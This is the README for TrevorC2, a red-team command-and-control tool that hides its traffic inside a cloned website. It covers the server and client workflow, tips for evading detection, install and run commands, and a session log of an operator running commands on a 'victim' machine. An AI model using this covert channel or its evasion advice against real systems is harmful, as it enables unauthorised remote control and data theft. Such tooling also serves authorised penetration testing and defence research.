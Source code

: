 trevorc2
=======

# TrevorC2 - Command and Control via Legitimate Behavior over HTTP

Written by: Dave Kennedy (@HackingDave)
Website: https://www.trustedsec.com

Note that this is a very early release - heavy randomization and encryption to be added soon.

TrevorC2 is a client/server model for masking command and control through a normally browsable website. Detection becomes much harder as time intervals are different and does not use POST requests for data exfil. 


           ,  .'''''.  ...    ''''',  .'           
            ','     ,.MMMM;.;'      '.             
             ;;    ;MMMMMMMMM;     ;;'             
            :'M:  ;MMMMMMMMMMM;.  :M':             
            : M:  MMMMMMMMMMMMM:  :M  .           
           .' M:  MMMMMMMMMMMMM:  :M. ;           
           ; :M'  :MMMMMMMMMMMM'  'M: :           
           : :M: .;"MMMMMMMMM":;. ,M: :           
           :  ::,MMM;.M":::M.;MMM ::' :           
         ,.;    ;MMMMMM;:MMMMMMMM:    :,.         
         MMM.;.,MMMMMMMM;MMMMMMMM;.,;.MMM         
         M':''':MMMMMMMMM;MMMMMMMM: "': M         
         M.:   ;MMMMMMMMMMMMMMMMMM;   : M         
         :::   MMMMMMMMMMM;MMMMMMMM   ::M         
        ,'';   MMMMMMMMMMMM:MMMMMMM   :'".         
      ,'   :   MMMMMMMMMMMM:MMMMMMM   :   '.       
     '     :  'MMMMMMMMMMMMM:MMMMMM   ;     '     
     ,.....;.. MMMMMMMMMMMMM:MMMMMM ..:....;.     
     :MMMMMMMM MMMMMMMMMMMMM:MMMMMM MMMMMMMM:     
     :MM''':"" MMMMMMMMMMMMM:MMMMMM "": "'MM:     
      MM:   :  MMMMMMMMMMMMM:MMMMMM  ,'  :MM       
      'MM   :  :MMMMMMMMMMMM:MMMMM:  :   ;M:       
       :M;  :  'MMMMMMMMMMMMMMMMMM'  :  ;MM       
       :MM. :   :MMMMMMMMMM;MMMMM:   :  MM:       
        :M: :    MMMMMMMMM'MMMMMM'   : :MM'       
        'MM :    "MMMMMMM:;MMMMM"   ,' ;M"         
         'M  :    ""''':;;;'''""    :  M:         
         ;'  :     "MMMMMMMM;."     :  "".         
       ,;    :      :MMMMMMM:;.     :    '.       
      :'     :    ,MM'''""''':M:    :     ';       
     ;'      :    ;M'         MM.   :       ;.     

There are two components to TrevorC2 - the client and the server. The client can be configured to be used with anything. In this example it's coded in Python but can easily be ported to C#, PowerShell, or whatever you want. Currently the trevorc2_client.py supports Windows, MacOS, and Linux. You can always byte compile the Windows one to get an executable, but preference would be to use Windows without having to drop an executable as a stager.

The way that the server works is by tucking away a parameter thats right before the </body> parameter. This is completely configurable, and it's recommended you configure everything to be unique in order to evade detection. Here is the workflow:

    1. trevor2_server.py - edit the file first, and customize, what website you want to clone, etc. The server will clone a website of your choosing and stand up a server. This server is browsable by anyone and looks like a legitimate website. Contained within the source is parameter that (again is configurable), which contains the instructions for the client. Once a client connects, it searches for that parameter, then uses it to execute commands.
    2. trevor2_client.py - all you need in any configurable option is the ability to call out to a website, parse some basic data, and then execute a command and then put the results in a base64 encoded query string parameter to the site. That's it, not hard. 

## Installation

pip install -r requirements.txt

## Usage

First edit the trevor2_server.py - change the configuration options and site to clone.

python trevor2_server.py

Next, edit the trevor2_client.py - change the configuration and system you want it to communicate back to. 

python trevor2_client.py

## Session Management

TrevorC2 supports the ability to handle multiple shells coming from different hostnames. The way TrevorC2 works is it will identify new hostnames as sessions. You can interact with the sessions once you execute a command. If you have multiple sessions, you can type a command and interact with that session based on the session number stored globally. Example below:

```

root@stronghold:/home/relik/Desktop/git/trevorc2# python trevorc2_server.py 

TrevorC2 - Legitimate Website Covert Channel
Written by: David Kennedy (@HackingDave)
https://www.trustedsec.com
[*] Cloning website: https://www.google.com
[*] Site cloned successfully.
[*] Starting Trevor C2 Server...
[*] Next, enter the command you want the victim to execute.
[*] Client uses random intervals, this may take a few.
Enter the command to execute on victim: 
*** Received connection from 172.16.37.133 and hostname DESKTOP-3VDNDSJ for TrevorC2.

*** Received connection from 127.0.0.1 and hostname stronghold for TrevorC2.

Enter the command to execute on victim: ipconfig
*** Select which assets to interact with to execute the command ***

1. DESKTOP-3VDNDSJ:172.16.37.133 (TrevorC2 Established)
2. stronghold:127.0.0.1 (TrevorC2 Established)


Enter the session number to interact with: 1
[*] Waiting for command to be executed, be patient, results will be displayed here...
[*] Received response back from client...
=-=-=-=-=-=-=-=-=-=-=
(HOSTNAME: DESKTOP-3VDNDSJ
CLIENT: 172.16.37.133)

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : localdomain
   Link-local IPv6 Address . . . . . : fe80::8984:c775:d798:3b88%4
   IPv4 Address. . . . . . . . . . . : 172.16.37.133
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.37.2

Ethernet adapter Bluetooth Network Connection:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 

Tunnel adapter Teredo Tunneling Pseudo-Interface:

   Connection-specific DNS Suffix  . : 
   IPv6 Address. . . . . . . . . . . : 2001:0:9d38:6ab8:8aa:24a3:53ef:da7a
   Link-local IPv6 Address . . . . . : fe80::8aa:24a3:53ef:da7a%6
   Default Gateway . . . . . . . . . : ::

Enter the command to execute on victim:
```
## TODO

#### Add ability for longer than 2048 data output. Query string parameter length limited size length.
#### Add do_POST support for POST exfil on longer data.
#### Add upload/download functionality.

